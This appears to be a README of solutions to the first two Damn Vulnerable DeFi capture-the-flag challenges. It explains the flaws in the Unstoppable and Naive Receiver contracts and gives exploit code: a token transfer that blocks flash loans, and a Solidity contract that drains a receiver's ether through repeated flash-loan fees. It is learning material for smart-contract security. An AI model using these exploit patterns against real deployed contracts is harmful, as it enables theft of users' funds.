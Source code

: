 # Damn Vulnerable DeFi

## Resources

- [Damn Vulnerable DeFi | CTF - YouTube](https://www.youtube.com/watch?v=A5s9aez43Co&list=PLO5VPQH6OWdXKPThrch6U0imGdD3pHLXi&index=1)
- [Damn Vulnerable DeFi - The rewarder – Dalton Sweeney – Software Engineer obsessed with crypto in general and Ethereum in particular](https://daltyboy11.github.io/damn-vulnerable-defi-rewarder/)
- [Damn Vulnerable DeFi v2](https://ventral.digital/posts/tag/Damn+Vulnerable+DeFi+v2)

## 1. Unstoppable

There is an assertion in the `flashLoan()` function in `UnstoppableLender` contract that uses the variable `poolBalance`. However, this balance variable is updated only when the `depositTokens()` is used. To unable the `flashLoan()` function, the only thing needed to be done is to transfer token directly to the `UnstoppableLender` contract.

Solution:

```javascript
await this.token.transfer(
    this.pool.address, 
    INITIAL_ATTACKER_TOKEN_BALANCE
)
```

## 2. Naive Receiver

The main problems of both contracts are that in the `NaiveReceiverLenderPool` contract, anyone can call the `flashloan()` function and specify a different `borrower` than is not necessarily the caller. Furthermore, the `FlashLoanReceiver` contract does not chech who in the original caller of the `receiveEther()` function.

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract NaiveReceiverExploit {
    address public immutable flashloan;

    constructor(address _flashloan) {
        flashloan = _flashloan;
    }

    function exploit(address _receiver, uint256 _amount) public {
        while (_receiver.balance > 0) {
            (bool success, ) = flashloan.call(
                abi.encodeWithSignature(
                    "flashLoan(address,uint256)",
                    _receiver,
                    _amount
                )
            );
            require(success, "Exploit unsuccessful");
        }
    }
}
```
